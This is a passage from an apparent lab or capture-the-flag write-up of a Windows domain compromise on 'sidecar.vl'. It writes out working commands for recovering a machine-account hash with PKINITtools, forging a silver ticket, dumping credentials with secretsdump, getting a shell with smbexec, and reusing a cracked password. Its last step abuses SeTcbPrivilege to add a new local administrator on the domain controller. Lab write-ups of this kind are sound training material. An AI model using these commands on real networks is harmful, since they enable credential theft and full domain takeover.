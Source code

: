 ```bash
python3 /opt/PKINITtools/getnthash.py -key '040534a41a4b07cdaf0082333e26aa693a9eb4897f171df1b94eb66be40a0dd3' sidecar.vl/'WS01$'
```

<img src="https://i.imgur.com/2JmmP27.png"/>

To impersonate as local admin on WS01, creating silver ticket with `ticketer.py`

```bash
ticketer.py -domain-sid S-1-5-21-3976908837-939936849-1028625813 -domain sidecar.vl -spn HOST/WS01.sidecar.vl -nthash 40************24 -user-id 500 Administrator 
```

<img src="https://i.imgur.com/Ogx7tGP.png"/>

```bash
secretsdump.py 'administrator'@WS01.Sidecar.vl -k -no-pass
```

<img src="https://i.imgur.com/fv6XdWQ.png"/>

Using `smbexec.py` we can get a shell on WS01

<img src="https://i.imgur.com/hJoHiXZ.png"/>

## Password sparying on svc_deploy

Moving forward, we have `Deployer` which has a resemblance with a domain user `svc_deploy` which has permissions to login on DC01

<img src="https://i.imgur.com/fwHXmNf.png"/>

Through cracksation we can recover deployer's password and reuse it on svc_deploy

<img src="https://i.imgur.com/YmSVeyF.png"/>

<img src="https://i.imgur.com/JRUVcZ9.png"/>

Checking the privilege, this user has `SeTcbPrivilege` enabled

<img src="https://i.imgur.com/JlNrSb4.png"/>

This privilege can be used for creating access tokens, acting as any user without needing their credentials or can run processes as SYSTEM user, using this poc https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178 from  antonioCoco https://twitter.com/splinter_code?lang=en

Compiling this poc through Visual Studio with Release build

<img src="https://i.imgur.com/LNpnQAn.png"/>

For abusing this we can create a new user and make him a local administrator on DC

```bash
SeTcbPrivilege.exe UwU "C:\Windows\System32\cmd.exe /c net user arz P@ssw0rd /add && net localgroup administrators arz /add"
```
